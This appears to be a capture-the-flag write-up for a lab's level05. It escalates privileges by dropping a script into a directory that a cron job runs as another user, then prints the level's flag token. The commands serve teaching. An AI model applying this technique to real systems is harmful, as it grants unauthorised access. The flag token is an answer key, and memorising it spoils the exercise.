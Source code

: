 ### Solution

1. **Locate files owned by `flag05`:**

	```bash
	find / -user flag05 2>/dev/null
	```

	You’ll see:

	```
	/usr/sbin/openarenaserver
	/rofs/usr/sbin/openarenaserver
	```

2. **Inspect the main file:**

	```bash
	ls -la /usr/sbin/openarenaserver
	```

	Output:

	```
	-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
	```

	This file:

	* Is **executable only by `flag05` and members of group `flag05`**
	* But since you're `level05`, you have permission to run it.

3. **Read the script contents:**

	```bash
	cat /usr/sbin/openarenaserver
	```

	```bash
	#!/bin/sh

	for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
	done
	```

	This means:

	* The script runs **any file in `/opt/openarenaserver/`** using `bash -x`
	* Then it deletes it
	* It runs as `flag05`, so anything executed will inherit `flag05`'s privileges

4. **Exploit: Inject a script to get the flag.**

	When we run:

	```bash
	cat /var/mail/level05
	```

	We discover a **cron job** that runs **as `flag05`** every 2 minutes:

	```
	*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
	```

	This means that **`/usr/sbin/openarenaserver` is executed with `flag05`'s privileges** regularly by cron.

	Create a shell script in `/opt/openarenaserver/`:

	```bash
	echo '/bin/getflag > /tmp/flag05' > /opt/openarenaserver/getflag05.sh
	chmod +x /opt/openarenaserver/getflag05.sh
	```

	When `flag05` run the vulnerable binary:

	```bash
	/usr/sbin/openarenaserver
	```

	It will:

	* Execute your script as `flag05`
	* Delete the script
	* And write the flag to `/tmp/flag05`

5. **Read the flag:**

	```bash
	cat /tmp/flag05
	```

	Output:

	```
	Check flag.Here is your token : viioq2mai7ae7pohb9cu6ah8
	```

	You’ve successfully executed `getflag` with `flag05`’s privileges.
